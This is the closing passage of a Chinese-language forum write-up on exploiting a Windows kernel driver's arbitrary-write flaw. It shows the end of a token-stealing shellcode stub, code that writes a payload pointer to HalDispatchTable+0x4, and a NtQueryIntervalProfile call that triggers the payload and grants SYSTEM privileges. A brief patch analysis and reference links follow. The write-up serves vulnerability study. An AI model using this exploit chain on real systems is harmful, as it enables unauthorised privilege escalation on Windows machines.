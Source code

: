 ```
                                            ; with SYSTEM process nt!_EPROCESS.Token
       ; End of Token Stealing Stub
 
       popad                                ; Restore registers state
   }

```

#### 3. 利用漏洞向 HalDispatchTable 地址 + 0x4 地址处写入 & payload

```
HalDispatchTable+0x4地址：
HalDispatchTablePlus4 = (PVOID)((ULONG_PTR)HalDispatchTable + sizeof(PVOID));
 
WriteWhatWhere->What = (PULONG_PTR)&EopPayload;
WriteWhatWhere->Where = (PULONG_PTR)HalDispatchTablePlus4;

```

#### 4. 调用 NtQueryIntervalProfile 函数，执行 payload

```
hNtDll = LoadLibrary("ntdll.dll");
 NtQueryIntervalProfile = (NtQueryIntervalProfile_t)GetProcAddress(hNtDll, "NtQueryIntervalProfile");
 NtQueryIntervalProfile(0x1337, &Interval);

```

运行 exp，提权成功：

 

![](https://img-blog.csdnimg.cn/img_convert/a6fb2f50ce55c3082b2fa44b0a79aa52.png)

[](#五：补丁分析)五：补丁分析
-----------------

在安全版本中已经给出，对 what 和 where 指针进行验证，robeForRead 函数，ProbeForwrite 函数，通过验证在进行操作

 

其他

 

参考链接：

 

[0day 安全 | Chapter 22 内核漏洞利用技术 (wohin.me)](https://wohin.me/0dayan-quan-chapter-22-nei-he-lou-dong-li-yong-ji-zhu/)

 

TJ：https://bbs.pediy.com/thread-252506.htm#msg_header_h2_2  
........

[【公告】【iPhone 13 大奖等你拿】看雪. 众安 2021 KCTF 秋季赛 防守篇 - 征题倒计时（11 月 14 日截止）！](https://bbs.pediy.com/thread-269228.htm)

[#漏洞分析](forum-150-1-153.htm) [#漏洞利用](forum-150-1-154.htm) [#Windows](forum-150-1-160.htm)